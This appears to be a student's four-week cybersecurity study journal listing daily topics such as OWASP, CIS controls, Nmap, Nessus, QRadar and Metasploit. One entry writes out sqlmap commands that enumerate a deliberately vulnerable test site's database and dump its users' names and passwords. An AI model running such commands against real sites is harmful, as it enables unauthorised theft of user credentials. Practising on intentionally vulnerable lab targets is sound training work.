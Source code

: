 # day-day Journal

--------------------------Week-1--------------------------
<22 August> 10 Hackers and their accomplishments. <br>
<23 August> what vulnerabilities are available for a perticular port.<br>
<24 August> OWASP top 5 vulnerabilities and test it on a website.<br>
<25 August> How Servers Work understanding web app attack what is a attack? Plot vulnerabilities other than OWASP top 10<br>

<26-27 Aug> Exploit OWASP top 10<br>
----------------------------------------------------
--------------------------Week-2--------------------------
<28 August> 10 web Server Attacks<br>
<29 August> 
Inventory and Control of Hardware Assets
Inventory and Control of Software Assets
Continuous Vulnerability Management
Controlled Use of Administrative Privileges
Secure Configuration for Hardware and Software on Mobile Devices, Laptops, Workstations and Servers
Maintenance, Monitoring and Analysis of Audit Logs Foundational
Email and Web Browser Protections
Malware Defenses
Limitation and Control of Network Ports, Protocols, and Services
Data Recovery Capabilities
Secure Configuration for Network Devices, such as Firewalls, Routers and Switches
Boundary Defense
Data Protection
Controlled Access Based on the Need to Know
Wireless Access Control
Account Monitoring and Control Organizational
Implement a Security Awareness and Training Program
Application Software Security
Incident Response and Management
Penetration Tests and Red Team Exercises<br>
<30 August> Understanding CIS Policy version 7and write about them<br>

<31 August> OFF DAY<br>

<1 September> Passive Reconnisence of a website without pinging it. What is OSNIT framework?<br>

--<2-3 September> Use 10 tools on kali available in the menu section.<br>
----------------------------------------------------
--------------------------Week-3--------------------------
<4 September> Scan any website to check the vulnerabilities in the website using nessus and make a report on it<br>
<5 September> Explore cheatsheet commands(Go through Nmap) and memorize the port nos<br>

<6 September> OFF DAY<br>

<7 September><br>
<8 September> sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -dbs | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --tables | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users --columns | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C pass --dump  [vulweb using sqlmap]<br>


*--<9-10 September> 
----------------------------------------------------
--------------------------Week-4--------------------------
<11 September> Doccumntation on What is Syn and SEIM.<br>
<12 September> Doccumentation on What is wincollect and StandAlone winollect<br>
<13 September> pick 4-5 logs from ibm qradar and doccument business impact. What is Local Security Policy in windows.<br>
<14 September> 3 Vulnerabilities exploitaion on metasploit<br>
<15 September> Doccumentation on burpsuit<br>
----------------------------------------------------
